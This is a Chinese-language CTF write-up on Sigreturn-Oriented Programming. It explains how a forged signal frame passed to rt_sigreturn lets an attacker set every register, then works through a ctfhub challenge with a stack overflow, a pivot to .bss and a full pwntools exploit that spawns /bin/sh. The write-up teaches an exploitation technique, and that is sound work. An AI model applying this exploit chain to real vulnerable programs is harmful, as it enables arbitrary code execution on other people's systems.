





# SROP
```
#include <stdio.h>   
#include <signal.h>  
#include <unistd.h> 
#include <stdlib.h>  

void sigint_handler(int sig) {
    printf("You can't kill me!!\n");
}

int main() {
    if (signal(SIGINT, sigint_handler) == SIG_ERR) {
        perror("err");  
        exit(EXIT_FAILURE);
    }
    printf("try kill me\n");
    while (1) {
        sleep(1);
    }

    return 0;
}
```
尝试编译运行以上程序：
```
gcc 1.c -o 1 -g
./1
```
然后我们在sigint_handler处下断点，触发handler之后跟进到handler返回：



```
;触发15号系统调用rt_sigreturn
mov rax, 0xf
syscall
```


这个系统调用用来还原信号发生之前的程序状态，但是程序状态被保存在用户栈上，这是我们可以控制的区域，并且没有任何检查，也就是说如果我们能伪造一个SigreturnFrame，再恶意地调用rt_sigreturn,就可以随意设置各寄存器的值，从而达到我们想要的目的。



sig_frame这个结构非常复杂，pwntools中的SigreturnFrame提供了现成的模板，只需要在exp开头指定好context就可以直接使用。上面是sig_frame中对于我们的利用最重要的一个部分。

以ctfhub上的SROP为例：


它给了一个gadget：



此gadget把rax置为0xf，也就是rt_sigreturn的系统调用号，于是我们可以利用栈溢出，伪造sig_frame，并使用syscall片段来调用rt_sigreturn"还原"寄存器状态，从而达到劫持的效果。

我们期望执行system("/bin/sh").所以我们利用syscall的片段调用SYS_READ来将/bin/sh读到bss，然后rdi要指向/bin/sh.这里要利用rdi的残留，因为程序本身是设置了rdi是0，所以我们后面只需要修改一下rsi就可以了，沿用rdi和rdx。

有一个小细节是由于这里syscall gadget后面有leave return，所以不太方便直接一条链ROP完成全部工作，因为leave会mov sp,bp; pop bp; 由于我们栈溢出的时候破坏了old bp，所以这里应该要栈迁移到bss上去(我们把bp覆盖成一个安全的地方，这样栈会被迁移过去).

然后万事俱备，我们放上调用rt_sigreturn的ROP链，然后将伪造的sig_frame放上去就可以了。
```
from pwn import *
context(arch="amd64",os="linux",log_level="debug")
io = process("./srop")
elf = ELF("srop")
set_rax_0xf = 0x40113e      # this gadget used to call sigreturn
syscall_eax0_ret = 0x401179
pop_rsi_r15_ret = 0x4011f1
read_bin_sh = 0x40116b
# read /bin/sh\x00 to .bss(0x404030), stack pivot
payload = 16 * b"a"+ p64(elf.bss()+0x20) + p64(pop_rsi_r15_ret) + p64(elf.bss())+p64(0) + p64(read_bin_sh)

io.sendlineafter("code:",payload)
fake_stack = b"/bin/sh\x00" + p64(0xdeadbeef)*4 + p64(set_rax_0xf) + p64(syscall_eax0_ret)

# fakesigreturnframe
fake_sig_return_frame = SigreturnFrame()
fake_sig_return_frame.rax = 59
fake_sig_return_frame.rdi = elf.bss()
fake_sig_return_frame.rsi = 0
fake_sig_return_frame.rdx = 0
fake_sig_return_frame.rip = syscall_eax0_ret

fake_stack += bytes(fake_sig_return_frame)

io.sendline(fake_stack)
io.interactive()
```